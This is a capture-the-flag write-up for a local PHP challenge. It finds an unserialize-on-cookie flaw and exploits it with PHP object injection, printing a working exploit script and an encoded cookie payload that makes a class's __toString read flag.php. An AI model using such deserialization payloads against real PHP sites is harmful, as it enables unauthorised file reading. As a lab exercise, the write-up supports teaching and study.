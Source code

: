 
#### Goals
 * Try to find the flag

#### Server Address
 * http://localhost:10002/

#### Writeups
1. access the url, we can find that there is a input form, try to input something.
2. notice cookie has been changed, a key 'list' is added.
```
a%3A1%3A%7Bi%3A0%3Bs%3A16%3A%22Hacked+by+smi1e%21%22%3B%7D
decode as url
a:1:{i:0;s:16:"Hacked by smi1e!";}
```
which means that the php code running on the server may like this
```php
$input = $_POST['a'];
$inputs = unserialize($_COOKIE['list']);
array_push($inputs, $input);
echo join('', $array);
```
3. PHP object injection!
4. then we check the html source code generated by index.php
found something interesting at the bottom
```php
#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}
```
5. all we need to do is try to call the `_toString` function of `class whatthefuck` to read the `flag.php`
6. here are the final exploit.
```php
➜  guess-the-code ls
exploit.php  flag.php
➜  guess-the-code cat exploit.php 
<?php

#try to read flag.php	
Class whatthefuck{
	public function __toString()
	{
		return highlight_file($this->source,true);
	}
}

$x = new whatthefuck();
$x->source='flag.php';
$y = serialize(array($x));
$z = unserialize($y);
echo $z;
```
```
put the following string as $_COOKIE['list'];
a%3A1%3A%7Bi%3A0%3BO%3A11%3A%22whatthefuck%22%3A1%3A%7Bs%3A6%3A%22source%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D
```

